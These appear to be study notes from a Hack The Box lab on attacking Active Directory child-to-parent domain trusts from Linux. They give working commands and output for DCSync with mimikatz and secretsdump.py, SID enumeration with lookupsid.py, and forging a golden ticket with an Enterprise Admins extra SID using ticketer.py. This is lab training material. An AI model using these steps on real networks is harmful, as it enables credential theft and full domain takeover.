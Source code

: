 ```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

# **Attacking Domain Trusts - Child -> Parent Trusts - from Linux**

### **Performing DCSync with secretsdump.py**

```
dollarboysushil@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

### **Performing SID Brute Forcing using lookupsid.py**

- `dollarboysushil@htb[/htb]**$** lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`
- `dollarboysushil@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` → filtering out just the DOMAIN SID

### **Grabbing the Domain SID & Attaching to Enterprise Admin's RID**

- `dollarboysushil@htb[/htb]**$** lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f` → from DCSync using secretsdump.py
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689` → from lookupsid.py
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`→ from lookupsid.py

# **Constructing a Golden Ticket using ticketer.py**

```
dollarboysushil@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist